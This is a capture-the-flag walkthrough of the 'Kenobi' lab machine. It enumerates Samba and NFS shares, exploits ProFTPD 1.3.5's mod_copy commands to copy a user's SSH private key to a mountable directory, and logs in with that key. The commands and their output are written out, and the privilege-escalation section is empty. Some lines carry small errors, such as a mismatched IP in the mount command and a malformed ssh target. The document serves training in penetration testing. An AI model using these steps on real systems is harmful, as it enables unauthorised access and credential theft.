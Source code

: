 # Kenobi
* Access a Samba share, manipulate a vulnerable version of proftpd to gain initial access and escalate privileges to root via an SUID binary.
## Enumerate Samba for Shares
* Samba is standard Windows interoperabiliy suite for Linux.
* Allows users to access files, printers.
* AKA network file system.
* Based on client / server protocol of Server Message Block (SMB).
  * SMB only developed for Windows.
* SMB uses TCP/445 and TCP/139.

| Port | Usage
| --- | ---
| 139 | SMB originally ran on top of NetBIOS using port 139. NetBIOS is older transport layer that allows Windows to talk to another on same network.
| 445 | Later versions of SMB (after Windows 2000) use port 445 on top of TCP stack. Using TCP allows SMB to work over the Internet.

#### 1. Enumerate target for SMB Shares.
```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse -oN 10.10.233.83_smb_scan.nmap 10.10.233.83

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-22 09:16 GMT
Nmap scan report for 10.10.233.83
Host is up (0.023s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-enum-shares: 
|   account_used: guest
|   \\10.10.233.83\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (kenobi server (Samba, Ubuntu))
|     Users: 2
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.233.83\anonymous: 
|     Type: STYPE_DISKTREE
|     Comment: 
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\home\kenobi\share
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.233.83\print$: 
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>

Nmap done: 1 IP address (1 host up) scanned in 4.55 seconds
```
* `smbclient` alreadt intalled on most Linux distributions.
#### 2. Inspect SMB share.
```
smbclient //10.10.233.83/anonymous
```
#### 3. Recursively download SMB share.
* Submit username and password as nothing.
```
smbget -R smb://10.10.233.83/anonymous

Password for [guest] connecting to //anonymous/10.10.233.83: 
Using workgroup WORKGROUP, user guest
smb://10.10.233.83/anonymous/log.txt                                            
Downloaded 11.95kB in 3 seconds
```
* Nmap port scan of target showed that TCP/111 is running `rpcbind` service.
* rpcbind is server that converts remote procedure call (RPC) program number into universal addresses.
* When RPC service is started it tells rpcbind the address at which it is listening and the RPC program number it is prepared to serve.
  * TCP/111 is access to NFS in this example.
#### 4. Use nmap scripts to enumerate NFS.
```
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.233.83

PORT    STATE SERVICE
111/tcp open  rpcbind
| nfs-ls: Volume /var
|   access: Read Lookup NoModify NoExtend NoDelete NoExecute
| PERMISSION  UID  GID  SIZE  TIME                 FILENAME
| rwxr-xr-x   0    0    4096  2019-09-04T08:53:24  .
| rwxr-xr-x   0    0    4096  2019-09-04T12:27:33  ..
| rwxr-xr-x   0    0    4096  2019-09-04T12:09:49  backups
| rwxr-xr-x   0    0    4096  2019-09-04T10:37:44  cache
| rwxrwxrwt   0    0    4096  2019-09-04T08:43:56  crash
| rwxrwsr-x   0    50   4096  2016-04-12T20:14:23  local
| rwxrwxrwx   0    0    9     2019-09-04T08:41:33  lock
| rwxrwxr-x   0    108  4096  2019-09-04T10:37:44  log
| rwxr-xr-x   0    0    4096  2019-01-29T23:27:41  snap
| rwxr-xr-x   0    0    4096  2019-09-04T08:53:24  www
|_
| nfs-showmount: 
|_  /var *
| nfs-statfs: 
|   Filesystem  1K-blocks  Used       Available  Use%  Maxfilesize  Maxlink
|_  /var        9204224.0  1836520.0  6877108.0  22%   16.0T        32000
MAC Address: 02:51:8B:05:9C:4F (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.94 seconds
```
## Gain Initial Access with ProFtpd
* ProFtpd is OSS FTP server for Linux and Windows.
* Vulnerable in past software versions.
#### 1. Get version of ProFtpd using netcat.
```
nc 10.10.233.83 21

220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.233.83]
```
#### 2. Use searchsploit to find exploits
* Searchsploit is CLI search tool for exploit-db.com
```
searchsploit proftpd 1.3.5
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
ProFTPd 1.3.5 - 'mod_copy' Command Execution  | linux/remote/37262.rb
ProFTPd 1.3.5 - 'mod_copy' Remote Command Exe | linux/remote/36803.py
ProFTPd 1.3.5 - 'mod_copy' Remote Command Exe | linux/remote/49908.py
ProFTPd 1.3.5 - File Copy                     | linux/remote/36742.txt
---------------------------------------------- ---------------------------------
Shellcodes: No Results
``` 
* ProFtpd 1.3.5 [mod_copy module](http://www.proftpd.org/docs/contrib/mod_copy.html) vulnerable to exploit.
* mod_copy implements **SITE CPFR** and **SITE CPTO** commands.
* Unauthenticated client can use commands to copy files from remote filesystem to chosen destination.
* log.txt shows that FTP service is running as `Kenobi` user in this example.
```
# Set the user and group under which the server will run.
User				kenobi
Group				kenobi
```
* log.txt shows that SSH key generated for Kenobi user.
```
Your identification has been saved in /home/kenobi/.ssh/id_rsa.
Your public key has been saved in /home/kenobi/.ssh/id_rsa.pub.
The key fingerprint is:
SHA256:C17GWSl/v7KlUZrOwWxSyk+F7gYhVzsbfqkCIkr2d7Q kenobi@kenobi
```
#### 3. Copy Private key Using SITE CPFR and SITE CPTO Commands.
```
nc 10.10.233.83 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.233.83]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
```
* Earlier nmap NFS enumeration scan showed that `/var` directory is mounted.
* Copy Kenobi user's private key to `/var/tmp` directory.
```
SITE CPTO /var/tmp/id_rsa
250 Copy successful
```
#### 4. Mount `/var/tmp` Directory
* Create network mount.
```
mkdir /mnt/kenobi_nfs
mount 10.10.233.82:/var /mnt/kenobi_nfs
ls -la /mnt/kenobi_nfs
```
#### 5. Get Private Key.
```
cp /mnt/kenobi_nfs/tmp/id_rsa .
sudo chmod 600 id_rsa
```
#### 6. Login to Kenobi user's account.
```
ssh -i id_rsa kenobi_10.10.233.83
```
 * `-i` selects identify file (private key). 
## Privilege Escalation with Path Variable Manipulation
* 

